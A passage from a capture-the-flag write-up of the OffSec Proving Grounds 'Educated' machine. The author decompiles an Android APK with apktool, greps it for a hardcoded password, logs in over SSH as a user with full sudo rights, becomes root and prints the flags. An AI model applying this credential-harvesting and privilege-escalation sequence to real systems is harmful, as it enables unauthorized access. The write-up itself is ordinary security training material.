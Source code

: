 There is a built in app called apktool in Kali, use that to decompile it.
`apktool d ~/Offsec/ProvingGrounds/Educated/grade-app.apk`

cd into that directory and grep for password
`┌──(user㉿kalipurple)-[~/Offsec/ProvingGrounds/Educated/grade-app]`
`└─$ grep -r "password" 2>/dev/null`

We get a hit
`res/values/strings.xml:    <string name="temp_password">EzPwz2022_dev1$$23!!</string>`

If we cat this file, at the bottom we find it's the password for e.miller who was the other user we found earlier
![[Pasted image 20240210212105.png]]

We can ssh with this password

`└─$ ssh emiller@192.168.151.13`                                                                                                
`emiller@192.168.151.13's password:` 
`Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-146-generic x86_64)`

 * `Documentation:  https://help.ubuntu.com`
 * `Management:     https://landscape.canonical.com`
 * `Support:        https://ubuntu.com/advantage`

  `System information as of Sun 11 Feb 2024 02:21:27 AM UTC`

  `System load:  0.0               Processes:               260`
  `Usage of /:   61.4% of 9.75GB   Users logged in:         2`
  `Memory usage: 52%               IPv4 address for ens160: 192.168.151.13`
  `Swap usage:   0%`


 * `Introducing Expanded Security Maintenance for Applications.`
   `Receive updates to over 25,000 software packages with your`
   `Ubuntu Pro subscription. Free for personal use.`

     `https://ubuntu.com/pro`

`Expanded Security Maintenance for Applications is not enabled.`

`0 updates can be applied immediately.`

`Enable ESM Apps to receive additional future security updates.`
`See https://ubuntu.com/esm or run: sudo pro status`


`The list of available updates is more than a week old.`
`To check for new updates run: sudo apt update`
`Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings`


`Last login: Sat Feb 10 23:41:57 2024 from 192.168.45.235`
`emiller@school:~$` 

Check sudo -l and he can sudo anything
`emiller@school:~$ sudo -l`
`[sudo] password for emiller:` 
`Matching Defaults entries for emiller on school:`
    `env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin`

`User emiller may run the following commands on school:`
    `(ALL : ALL) ALL`


Sudo and grab the flag
`emiller@school:~$ sudo su -`
`root@school:~# cat /root/proof.txt`
`08a318871bc2ea6d391b9ea78eff5bfe`
`root@school:~# cat /home/msander/local.txt`
`f4d31abfd7fc2a2b4ff74da56f1b91c4`

